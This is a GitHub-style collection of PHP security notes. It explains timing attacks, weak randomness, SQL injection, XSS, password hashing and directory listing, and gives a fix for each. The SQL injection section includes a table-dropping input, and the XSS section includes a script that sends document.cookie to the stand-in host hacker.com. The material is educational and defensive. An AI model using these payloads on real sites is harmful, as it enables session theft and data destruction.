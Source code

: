 ### PHP security collection
I am not an expert, just somemone who collects security vulnerabilities!

#### Genral links
https://github.com/paragonie/awesome-appsec#php

https://www.udemy.com/course/php-security/

#### Timing attack

String compare operators return immediately if the length is not the same:
So you could see if one length takes longer than other, based on that you can get the length. The string compare operator return immediately if the a character is wrong, so based on that: you can get the character that takes the longest and that this is the right character.

```
if ($_POST["password"] !== "Password") {
    return false;
}
```
Even if the time difference is so little and ther is network jitter: why risk it. Use hash_equals($known_string, $user_string), which doesnt leak time difference (only for getting the length).
```
if (hash_equals("Password", $_POST["password"]) {
    return true;
}
```

[Link on topic](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)

#### Insufficient Randomness

Dont use mt_rand() . Use one of the following:

* RandomLib
* random_bytes($length) (PHP 7, or available in PHP 5 via random_compat)
* Raw bytes read from /dev/urandom
* mcrypt_create_iv($length, MCRYPT_DEV_URANDOM);
* openssl_random_pseudo_bytes($length);

```
$token = bin2hex(openssl_random_pseudo_bytes($length));
```

[Link on topic](https://paragonie.com/blog/2015/04/secure-authentication-php-with-long-term-persistence)

#### SQL injection
```
$userQuery = $con->query("SELECT * FROM users WHERE email = '$email' ");
```

If user input is:
''; DROP TABLE posts; --
This will drop the table posts.

To avoid this, use prepare statement.
```
$userQuery = $con->prepare("SELECT * FROM users WHERE email = :email");
$userQuery->execute([
    'email' => $email
]);
```
[PDO tutorial](https://phpdelusions.net/pdo)

#### PHP ini

```
display_errors=Off ;hides possible data leaks
```

#### Cross-site scripting (XSS)
XSS is an injection attack. If you have some type of form, that uploads data and try to show this data as html code, you can insert javascript. For example: you can commit a comment and you show this comment as html, you can insert into the comment javscript: which will, when inserted, be ecexuted. You could insert this "harmless" code:
```
<script>
window.alert("Hello i am inserted")
</script>
```
To see how dangerous XSS is, look at that:
```
<script>
window.location = "http://hacker.com/hack.php?cookie=" + escape(document.cookie)
</script>
```
See, you can steal cookies: which can have eccess tokens.

When insert text with javascript use instead of innerHTML, textContent. When echo in php fetch the echo content out of htmlspecialchars($_POST["body"]).
```
echo htmlspecialchars($_POST["body"]);
```

When insert text with javascript use instead of innerHTML, textContent.

#### Password hashing
Dont use md5 hashing. It is easily crackable.
```
md5($_POST["password"]) //dont do this
```
Use password_hash($password).
```
password_hash($password, PASSWORD_DEFAULT) // this hashes the password
```
[Password hash manual](https://www.php.net/manual/de/function.password-hash.php) <br>
Use password_verify to verify the password.
```
$result = password_verify($password, $hash);
```
#### Hiding directories
To hide directories create in the a .htacess file, in the directorie and then it cant be eccessed.
```
Options -Indexes
```
